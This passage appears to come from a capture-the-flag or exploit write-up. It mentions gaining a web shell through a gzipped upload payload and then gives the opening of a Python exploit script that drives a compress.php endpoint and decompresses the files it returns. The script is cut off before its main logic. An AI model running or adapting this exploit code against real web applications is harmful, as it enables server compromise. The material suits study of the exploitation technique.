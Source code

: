 When this payload is `gzipped` on the server, it is giving us the web shell:

![images/Untitled%207.png](images/Untitled%207.png)

## 🔐 Exploit Program:

```python
import requests
import sys
import re
import gzip
import sys

if(len(sys.argv) < 4):
	print("Usage: python3 xtool.py <webapp-uri> <upload-uri> <ext>")
	sys.exit(0)

url = str(sys.argv[1])

#get user_id cookie
def get_user_id_cookie(s):
	s.get(url)

def parse_error(r):
	if(not r.ok):
		return "Not OK"
	if("Invalid" in r.text):
		return "Invalid"
	elif("userid" in r.text):
		return "userid"
	elif("Hacking" in r.text):
		return "Hacking"
	return ""

def compress_request(s, cookies, headers, file_uri, ext, data):
	r = s.post(url+"compress.php", data=data, cookies=cookies, headers=headers)

	error = parse_error(r)
	if(error):
		print(error)
		sys.exit(0)
	return r

def extract_download_link(r):
	link = re.findall("href='.*?'", r.text)
	if(link):
		return url + link[0].replace("'","").replace("href=","")

def decompress_file(s, link_to_file):
	r = s.get(link_to_file)
	d = gzip.decompress(r.content)
	return d.decode('utf-8')

cookies = {}
```
